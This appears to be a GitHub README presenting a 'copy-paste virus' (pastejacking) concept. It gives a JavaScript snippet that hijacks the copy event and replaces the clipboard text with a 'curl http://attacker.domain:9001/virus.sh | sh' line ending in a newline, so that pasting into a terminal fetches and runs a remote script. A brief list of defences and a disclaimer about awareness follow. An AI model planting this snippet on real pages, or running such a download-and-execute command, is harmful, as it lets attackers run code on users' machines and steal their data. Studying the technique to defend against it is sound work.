 # copy-past-Virus
Basically when the text is pasted into a terminal or CMD/PowerShell, the script is executed automatically (because I use \n to create new line) and can cause a variety of things, such as stealing data or installing malware. This is designed to infect a computer by hiding within copied and pasted text or code. As soon as the copied content is pasted into a new document, the malware infects the system, giving hackers access to sensitive information. copy-paste malware is silent operation. They can easily slip under the radar of many antivirus software, making them difficult to detect. Once they have infiltrated a system, they can be used to steal sensitive data such as passwords, financial information, and confidential documents. This is a small JavaScript code to show potential of this attack.

This attack works also on Windows 11 and Ubuntu.


# example of attacker script: 
 ```
<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker.domain:9001/virus.sh | sh\n'); e.preventDefault(); });
 </script>
```

 **this attack also works on ubuntu users. A command like sudo apt-get update && apt-get upgrade should normally update the repositories and upgrade the packages on a ubuntu system. The attacker will add \n or \r\n for new line. When this happens in a terminal it will automatically execute the code.**

**Another way that malicious code can be introduced into systems through copy and paste is through the use of malicious links. These links can be embedded in text that is copied from a website. When the text/link is pasted into a browser, the link is clicked and the user is taken to a malicious website. This website can then install malware on the user's computer or steal the user's personal information.**

 For now, this is short simple concept and show of kinda smart attack vector but in the future, when I have time, I will learn more about this method and update this repository with more advanced techniques.


# How to avoid this​
Only copy and paste content from trusted sources.

Use a firewall to block suspicious incoming connections.

configure your terminal to avoid new line “\n” or \r\n to stop this attack.


The creator of this repository does not bear any legal consequences if any person uses it inappropriately. The purpose of this is only to show a clever way for bad actors to infect an unaware user, so that the potential victim will know to be careful and how to defend themselves against it.

